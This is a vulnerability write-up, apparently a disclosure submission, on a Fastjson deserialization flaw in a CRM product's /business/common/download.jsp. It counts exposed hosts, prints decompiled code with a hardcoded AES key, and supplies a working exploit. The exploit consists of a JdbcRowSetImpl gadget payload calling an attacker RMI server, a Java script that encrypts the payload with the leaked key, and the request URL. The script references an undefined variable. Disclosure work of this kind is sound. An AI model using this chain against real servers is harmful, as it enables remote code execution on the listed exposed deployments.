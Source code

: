 ### <font style="color:rgb(28, 31, 35);">The download.jsp has a front-end Fastjson deserialization vulnerability.</font>
<font style="color:rgb(28, 31, 35);">The number of IPs using this software and their fingerprints are as follows:</font>

**<font style="color:rgb(28, 31, 35);">1,342 matching results, with 735 unique IPs.</font>**

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751782333856-f16a2cbf-071d-4f15-9b3a-39d858a04271.png?x-oss-process=image%2Fformat%2Cwebp)

<font style="color:rgb(28, 31, 35);">One sink point is located in `com.metasoft.framework.pub.download.AnalyzeParam`.</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751860281856-54bf9502-8ed6-46e3-ab75-83aa426e89c8.png)

<font style="color:rgba(0, 0, 0, 0.85);">The AEC (Advanced Encryption Standard) class handles encryption, decryption, and hashing operations on encrypted data. However, the encryption code employs a hardcoded secret key, which introduces a critical vulnerability:</font>

```bash
package com.metasoft.framework.pub.malg.aes;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import sun.misc.BASE64Decoder;
import sun.misc.BASE64Encoder;

public class AesEcbCipher {
    private static final String SECRET_KEY = "metacrmloginpass";
    private byte[] key = "metacrmloginpass".getBytes();

    public AesEcbCipher(String secretKey) {
        this.key = secretKey.getBytes();
    }

    public AesEcbCipher() {
    }

    public String Encrypt(String sSrc) {
        try {
            SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
            Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
            cipher.init(1, skeySpec);
            byte[] encrypted = cipher.doFinal(sSrc.getBytes("UTF-8"));
            return (new BASE64Encoder()).encode(encrypted);
        } catch (Exception var5) {
            Exception ex = var5;
            ex.printStackTrace();
            return null;
        }
    }

    public String Decrypt(String sSrc) {
        if (sSrc != null && sSrc.length() != 0) {
            try {
                SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
                Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
                cipher.init(2, skeySpec);
                byte[] encrypted1 = (new BASE64Decoder()).decodeBuffer(sSrc);
                byte[] original = cipher.doFinal(encrypted1);
                String originalString = new String(original, "UTF-8");
                return originalString;
            } catch (Exception var7) {
                return sSrc;
            }
        } else {
            return sSrc;
        }
    }

    public String encrypt(String sSrc) {
        try {
            SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
            Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
            cipher.init(1, skeySpec);
            byte[] encrypted = cipher.doFinal(sSrc.getBytes("UTF-8"));
            return Hex.encodeHexStr(encrypted);
        } catch (Exception var5) {
            Exception ex = var5;
            ex.printStackTrace();
            return null;
        }
    }

    public String decrypt(String sSrc) {
        if (sSrc != null && sSrc.length() != 0) {
            try {
                SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
                Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
                cipher.init(2, skeySpec);
                byte[] encrypted1 = Hex.decodeHex(sSrc.toCharArray());
                byte[] original = cipher.doFinal(encrypted1);
                String originalString = new String(original, "UTF-8");
                return originalString;
            } catch (Exception var7) {
                return sSrc;
            }
        } else {
            return sSrc;
        }
    }
}

```

<font style="color:rgb(28, 31, 35);">Tracing further up to see where AnalyzeParam is called, we arrive at /business/common/download.jsp.</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751860486967-54c61726-50b2-4699-bd1a-296267c0b833.png)

<font style="color:rgb(28, 31, 35);">Here, data is passed in via the parameter `p` and assigned to `downUrl`, after which `AnalyzeParam` is called to perform related operations on `downUrl`. This makes the call chain clear as follows:</font>

/business/common/download.jsp -> com.metasoft.framework.pub.download.AnalyzeParam -> com/metasoft/framework/pub/malg/aes/AesEcbCipher

**Exploitation POC:**  
<font style="color:rgba(0, 0, 0, 0.85);">Leverage a generic Fastjson gadget chain:</font>

```bash
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://你的RMI服务器/Object","autoCommit":true}}""}
```

这<font style="color:rgb(28, 31, 35);">The RMI service here is implemented using the tool available at </font>**<font style="color:rgb(28, 31, 35);">https://github.com/wyzxxz/jndi_tool</font>**<font style="color:rgb(28, 31, 35);">, which works really well! The constructed encryption script is as follows:</font>

```bash
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import org.apache.commons.codec.binary.Hex;

public class HelloAES {
    private static final String SECRET_KEY = "metacrmloginpass";
    private byte[] key = SECRET_KEY.getBytes();


    public HelloAES(String secretKey) {
        this.key = secretKey.getBytes();
    }

    public HelloAES() {
    }

    public String encrypt(String sSrc) {
        try {
            SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
            Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
            cipher.init(Cipher.ENCRYPT_MODE, skeySpec);
            byte[] encrypted = cipher.doFinal(sSrc.getBytes("UTF-8"));
            return Hex.encodeHexString(encrypted);
        } catch (Exception ex) {
            ex.printStackTrace();
            return null;
        }
    }

    public String decrypt(String sSrc) {
        if (sSrc != null && !sSrc.isEmpty()) {
            try {
                SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
                Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
                cipher.init(Cipher.DECRYPT_MODE, skeySpec);
                byte[] encrypted1 = Hex.decodeHex(sSrc.toCharArray());
                byte[] original = cipher.doFinal(encrypted1);
                return new String(original, "UTF-8");
            } catch (Exception ex) {
                return sSrc;
            }
        } else {
            return sSrc;
        }
    }

    public static void main(String[] args) {

        String HelloPayload = "{\"@type\":\"com.alibaba.fastjson.JSONObject\",{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://你的RMI服务\",\"autoCommit\":true}}\"\"}";

        String Helloppp = new HelloAES().encrypt(fuckPayload);

        System.out.println(Helloppp);

        System.out.println(new HelloAES().decrypt(Helloppp));

    }
}
```

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751861026213-8a9726b6-3cc7-48b8-a24a-a7fac90bf99b.png)

**Exploitation POC:**

`http://ip/business/common/download.jsp?p=yourpayload`。

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751861116964-2b88ec3e-3669-4f6a-8726-06534eb5ce44.png)

<font style="color:rgba(0, 0, 0, 0.85);">RMI callback display:</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751861084445-a615b980-3ead-49fa-ba80-728d76ec8109.png)

This proves that the vulnerability exists.

Wish you a pleasant life, and thank you for your review!


